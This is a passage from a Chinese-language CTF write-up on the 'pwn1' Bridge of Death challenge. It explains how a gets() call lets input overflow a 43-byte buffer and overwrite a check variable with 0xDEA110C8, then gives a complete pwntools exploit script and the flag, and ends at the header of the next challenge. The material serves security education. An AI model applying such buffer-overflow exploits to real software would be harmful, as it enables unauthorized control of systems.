 ```plaintext
λ ~/ ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
aaaa
I don't know that! Auuuuuuuugh!
```

咋一看好像没啥东西，丢到 IDA 里面瞧瞧：

![](https://ghproxy.net/https://raw.githubusercontent.com/CuB3y0nd/picx-images-hosting/master/.3uv4xilla4.avif)

显然，根据伪代码可以轻易的知道如何绕过前两问的输入。然后第三问采用了一个 `gets()` 函数接收输入，输入保存到一个 43 字节大小的字符数组里面。由于 `gets()` 不检查输入大小，因此超过 `input` 容量的内容会溢出到 `v5`。最后如果 `v5 == 0xDEA110C8` 则输出 `flag`。

所以思路就是先回答前两问，然后填满 `input`，将 `0xDEA110C8` 溢出到变量 `v5`，结束。

## Exploit

```python
#!/usr/bin/python3

from pwn import *

context(os='linux', arch='amd64', log_level='debug', terminal='kitty')

target = process('./pwn1')

recvuntil = lambda str : print(target.recvuntil(str))

payload = b'A' * 0x2b + p32(0xdea110c8)

recvuntil(b'What... is your name?')
target.sendline(b'Sir Lancelot of Camelot')
recvuntil(b'What... is your quest?')
target.sendline(b'To seek the Holy Grail.')
recvuntil(b'What... is my secret?')
target.sendline(payload)
target.interactive()
```

## Flag

Flag: `flag{g0ttem_b0yz}`

# Tokyo Westerns CTF 3rd 2017 JustDoIt

## Information

- Category: Pwn
- Points: Unknow
